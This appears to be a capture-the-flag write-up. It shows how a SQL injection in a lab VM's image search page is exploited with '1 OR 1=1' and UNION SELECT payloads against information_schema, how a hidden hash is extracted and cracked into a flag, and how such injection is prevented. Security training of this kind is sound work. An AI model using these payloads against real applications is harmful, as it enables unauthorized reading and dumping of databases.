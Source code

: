 # SQL Injection - Image Search

SQL injection is a type of injection attack. Injection attacks occur when maliciously crafted inputs 
are submitted by an attacker, causing an application to perform an unintended action.


## Breach

Go to page:

{VM_IP}/index.php?page=searchimg

Insert the following commands into the image search bar:

### Test if vulnerable to SQL Injection

```1 OR 1=1```

We get all the results because every row is considered true.

### Get the table names in the database

```1 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.TABLES```

Here we find:

* Title: list_images
* Url : Member_images

### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here find the following table structure:

* Table name: list_images,
column : id
* Table name: list_images,
column : url
* Table name: list_images,
column : title
* Table name: list_images,
column : comment

### Look at the comment below each member's image

```1 OR 1=1 UNION SELECT title, comment FROM Member_images.list_images```

Here we find:

* Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
* Url : Hack me ?

### Hash

[md5_decrypt](https://md5decrypt.net)(1928e8083cf461a51303633093573c46) = albatroz

[sha256](https://md5decrypt.net/Sha256)(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

flag = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## Use

A successful SQL injection attack can:
- read sensitive data from the database, 
- modify database data (insert/update/delete), 
- execute administration operations on the database (such as shutdown the DBMS), 
- recover the content of a given file existing on the DBMS file system or write files into the file system, 
- in some cases, issue commands to the operating system.


## Prevention

- You should always use parameterized statements where available, 
they are your number one protection against SQL injection.
- [Here](https://www.hacksplaining.com/prevention/sql-injection#code-samples) are some code samples in various languages.
- Principle of Least Privilege: applications should ensure that each process or software component can access and affect only the resources it needs. 
Apply “levels of clearance” as appropriate.
